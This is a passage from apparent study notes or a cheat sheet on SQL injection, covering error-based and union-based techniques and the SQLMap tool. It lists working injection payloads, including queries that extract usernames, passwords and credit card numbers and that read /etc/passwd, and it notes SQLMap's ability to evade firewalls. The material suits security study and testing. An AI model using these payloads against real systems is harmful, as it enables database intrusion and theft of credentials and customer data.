 	Provides: additional information that can be useful for further attacks or understanding the structure of the database. 

	Example query: 
	
		'OR 1=1/0 --
		'OR 'abc'='abc' AND 1=1/0 --
		'; EXEC non_existent_procedure; --
		'UNION ALL SELECT 1, @@VERSION –
		'OR (SELECT COUNT(*) FROM
		information_schema.tables) = 0 --
		'OR ROW(1,1)>(SELECT
		COUNT(*),CONCAT(CHAR(58,58,58),
		version(), CHAR(58,58,58))x FROM
		information_schema.tables GROUP BY x) --
		'AND (SELECT TOP 1 column_name FROM
		information_schema.columns) = 'username' -- 

<br>

<a id="union-based"></a>
**Union-based (Dictionary Scheme Method):**

	Definition: leveraging the UNION operator in SQL queries to combine the results of multiple SELECT statements

	Goal: accessing unauthorized data or bypassing authentication mechanisms

	Provides: additional information from the database
	
	Example Query:
	
		'UNION SELECT null --
		'UNION SELECT column_name FROM
		information_schema.columns --
		' UNION SELECT username FROM users --
		'UNION SELECT password FROM users
		WHERE username='admin' --
		'UNION SELECT credit_card_number FROM
		customers --
		'UNION SELECT NULL, CONCAT(username,
		':', password) FROM users --
		'UNION SELECT LOAD_FILE('/etc/passwd') --

<br>

<a id="sqlmap"></a>
**SQLMap (Dictionary Search Tool):**

	Reference Page: https://sqlmap.org
	
	Purpose: detection of SQL injection vulnerabilities
	
	Pros: 
		- Automated
		- Most popular compared to counterparts
		- Does not require attacker to have in-depth knowledge
		- Can be done even if authentication is required (since capable of working with cookies)
		- bypass firewall in search of SQL injection vuln (by generating random user-agent client strings
	